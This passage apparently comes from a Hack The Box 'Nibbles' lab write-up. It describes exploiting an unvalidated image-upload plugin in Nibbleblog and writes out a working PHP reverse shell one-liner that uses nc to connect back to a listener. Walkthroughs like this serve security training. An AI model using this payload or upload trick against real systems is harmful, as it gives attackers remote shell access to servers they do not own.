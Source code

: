 <p align="center">
    <img src="https://media.giphy.com/media/RcZiNH8v6Kt8c/giphy.gif">
</p>

# <a name="exploit"></a> Exploitation

Once I had successfully authenticated with the blogging platform, I ran `searchsploit` to look for any known vulnerabilities.

```bash
searchsploit nibbleblog
```

The results return a known arbitrary file upload exploit that looks useful. I read through the code of the exploit to get an understanding of how the exploit works. There was also a link to [this article](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) that explains the mechanics of the exploit even further.

In a nutshell, this exploit takes advantage of the "my image" upload plugin that lets you upload any filetype. The vulnerability is that there is no validation whether the file you selected for upload is an image or not. In this case, the plugin can be used to upload malicious files.

I craft a quick and dirty PHP reverse shell.

```php
<?php echo exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.66 1234 >/tmp/f'); ?>
```

... and open a netcat listener on my  Kali host.

```bash
nc -lvnp 1234
```

Using the `my image` plugin, I upload the PHP script.

![htb-nibbles-09](/images/htb/nibbles/htb-nibbles-09.png)
